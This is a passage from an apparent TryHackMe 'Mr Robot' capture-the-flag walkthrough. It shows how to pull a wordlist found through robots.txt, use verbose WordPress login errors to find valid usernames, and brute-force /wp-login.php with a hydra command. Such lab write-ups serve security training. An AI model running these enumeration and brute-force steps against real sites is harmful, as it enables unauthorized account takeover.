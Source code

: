 Accessing `/robots.txt` shows two files are listed, namely `fsocity.dic` and `key-1-of-3.txt`:

![Mr Robot - Robots.txt](tryhackme/images/mrrobot_robotstxt.png)

Downloading the files:

```console
$ wget http://<VICTIM IP>/fsocity.dic
$ wget http://<VICTIM IP>/key-1-of-3.txt
```

Viewing these files we successfully get **key 1** and a dictionary which we can use against the login form at `/wp-login.php`.

Navigating to `/wp-login.php`, we see we have fairly verbose error messaging when we input credentials:

![Mr Robot - Verbose Errors](mrrobot_verbose_errors.png)

This means we can use this to infer the username as it will likely produce a different error message as it would be valid. Now we capture a request in BurpSuite in order to get the parameters required for the bruteforce.

![Mr Robot - BurpSuite Request](tryhackme/images/mrrobot_burpsuite_request.png)

In particular, `log=admin&pwd=admin&wp-submit=Log+In` are the parameters we need.

In addition, before we bruteforce, we need to create a new list by filtering down the original `fsocity.dic`, removing all the duplicate entries.

```console
# Count lines in dictionary file
$ cat fsocity.dic | wc -l
858160

# Count lines in filtered dictionary file
$ cat fsocity.dic | sort | uniq | wc -l
11451

# Output filtered content to new file
$ cat fsocity.dic | sort | uniq > fsocity_filtered.dic
```

Now, we use `hydra` to bruteforce the login page for the username:

```console
$ hydra -L fsocity_filtered.dic -p test <VICTIM IP> http-post-form '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log+In:Invalid username' -t 30
```
